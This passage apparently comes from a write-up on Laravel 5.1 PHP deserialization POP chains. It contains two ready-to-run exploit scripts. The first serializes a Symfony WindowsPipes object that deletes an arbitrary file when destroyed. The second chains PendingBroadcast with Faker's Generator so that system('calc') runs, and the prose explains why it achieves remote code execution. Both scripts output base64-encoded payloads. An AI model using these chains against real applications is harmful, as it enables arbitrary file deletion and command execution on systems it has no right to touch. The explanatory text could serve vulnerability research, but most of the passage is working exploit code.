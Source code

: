 ### exp

```php
<?php
namespace Symfony\Component\Process\Pipes {
    class WindowsPipes {
        private $files = array();
        function __construct() {
            $this->files = array("C:/Tools/phpstudy_pro/WWW/laravel51/public/info.php");
        }
    }
    echo base64_encode(serialize(new WindowsPipes()));
}
?>
```

![](https://p2.ssl.qhimg.com/t01e9d1c102c6fa2130.png)

![](https://p0.ssl.qhimg.com/t01ad3b15be7188726f.png)

## POP Chain-2
Follow up on the `__destruct()` method in `src/Illuminate/Broadcasting/PendingBroadcast.php` and found that `$this->events` and `$this->events` are both controllable, so you can find a `__call()` method or `dispatch()` method to utilize it.

First use `__call()` to make a breakthrough point, follow up on the `__call()` method in `src/Faker/Generator.php`, and find that it called the `format()` method, and then called the `getFormatter()` method.

![](https://p3.ssl.qhimg.com/t01693e24f56c873248.png)

Since the $this->formatters[$formatter]` in the `getFormatter()` method is controllable and returns directly to the previous layer, you can use this controllable parameter to perform RCE operations in commands.

### exp
```php
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($events="", $event="") {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct($func="") {
            $this->formatters = ['dispatch' => $func];
        }
    }
}

namespace {
    $demo1 = new Faker\Generator("system");
    $demo2 = new Illuminate\Broadcasting\PendingBroadcast($demo1, "calc");
    echo base64_encode(serialize($demo2));
}
```